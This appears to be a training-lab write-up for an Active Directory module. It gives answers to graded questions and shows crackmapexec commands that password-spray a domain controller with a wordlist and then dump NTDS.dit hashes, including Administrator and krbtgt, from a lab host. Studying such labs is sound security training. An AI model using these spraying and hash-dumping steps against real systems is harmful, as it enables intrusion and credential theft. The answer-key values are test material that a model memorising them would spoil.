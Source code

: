 
### Attacking Active Directory & NTDS.dit

12. What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts? (Format: ****.***) 

Read the page or Ctr+f: NTDS.dit


13.  Submit the NT hash associated with the Administrator user from the example output in the section reading. 

Just look at the last image in the page: 64f12cddaa88057e06a81b54e73b949b



15. On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive) 

I took a hint as my username-anarchy was not working. So in the hint they say to use fasttrack password wordlist and firstinitiallastname pattern:
```c
crackmapexec smb 10.129.189.127 -u jmarston -p /usr/share/wordlists/fasttrack.txt  
.
.
.
SNIP
.
.
.
SMB         10.129.189.127  445    ILF-DC01         [-] ILF.local\jmarston:P@ssw0rd! STATUS_LOGON_FAILURE 
sSMB         10.129.189.127  445    ILF-DC01         [-] ILF.local\jmarston:P@55w0rd! STATUS_LOGON_FAILURE 
SMB         10.129.189.127  445    ILF-DC01         [+] ILF.local\jmarston:P@ssword! (Pwn3d!)
```

Took sometime but I found password:
```
jmarston:P@ssword!
```

16. Capture the NTDS.dit file and dump the hashes. Use the techniques taught in this section to crack Jennifer Stapleton's password. Submit her clear-text password as the answer. (Format: Case-Sensitive) 

I decided to use simple method:
```c
crackmapexec smb 10.129.189.127 -u jmarston -p P@ssword! --ntds                   
SMB         10.129.189.127  445    ILF-DC01         [*] Windows 10 / Server 2019 Build 17763 x64 (name:ILF-DC01) (domain:ILF.local) (signing:True) (SMBv1:False)
SMB         10.129.189.127  445    ILF-DC01         [+] ILF.local\jmarston:P@ssword! (Pwn3d!)
SMB         10.129.189.127  445    ILF-DC01         [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.189.127  445    ILF-DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
SMB         10.129.189.127  445    ILF-DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.189.127  445    ILF-DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cfa046b90861561034285ea9c3b4af2f:::
SMB         10.129.189.127  445    ILF-DC01         ILF.local\jmarston:1103:aad3b435b51404eeaad3b435b51404ee:2b391dfc6690cc38547d74b8bd8a5b49:::
SMB         10.129.189.127  445    ILF-DC01         ILF.local\cjohnson:1104:aad3b435b51404eeaad3b435b51404ee:5fd4475a10d66f33b05e7c2f72712f93:::
SMB         10.129.189.127  445    ILF-DC01         ILF.local\jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::
```